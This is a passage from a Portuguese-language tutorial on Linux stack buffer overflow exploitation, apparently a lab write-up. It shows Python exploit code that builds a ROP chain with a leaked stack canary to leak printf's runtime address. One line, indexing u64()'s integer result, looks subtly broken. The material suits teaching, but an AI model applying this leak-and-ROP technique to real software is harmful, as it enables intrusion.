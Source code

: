 Todos estes *offsets* podem ser convertidos em endereços reais em tempo de execução, ao somá-los com o endereço base do binário que já é calculado com o *exploit*. Com estas instruções, é possível atualizar o script com os seguintes comandos:

```
#Encontrando a Instrução Assembly no binário
#ROPgadget --binary prog --ropchain | grep rdi
pop_rdi = 0x12db + elf_base

#Encontrando offset da funcao printf
#objdump -d -M intel prog | grep printf
printf_got = 0x4028 + elf_base
printf_plt = 0x1050 + elf_base

#Encontrando o offset dafuncao main
#objdump -d -M intel prog | grep main
main = 0x1224 + elf_base

#Criando o payload
payload = CANARY
payload += p64(pop_rdi)
payload += p64(printf_got)
payload += p64(printf_plt)
payload += p64(main)

#Enviando o payload
p.send(payload)
#Recebendo a primeira linha
p.recv(1024)
#Recebendo a segunda linha
p.recv(1024)
#Salvando a terceira linha com o endereco da funcao PRINTF
elf_printf = p.recv(1024)
elf_printf = elf_printf.replace(b"Preencha meu buffer:", b"").strip()
elf_printf = u64(elf_printf.ljust(8, b"\x00"))[0]
print(f"[+] ELF PRINTF @ {hex(elf_printf)}")

```

Ao executar o exploit, é possível obter os endereços necessário para finalizar a exploração:

![Endereço da função printf em tempo de execução.](/std/linbof/exploit-6.png)
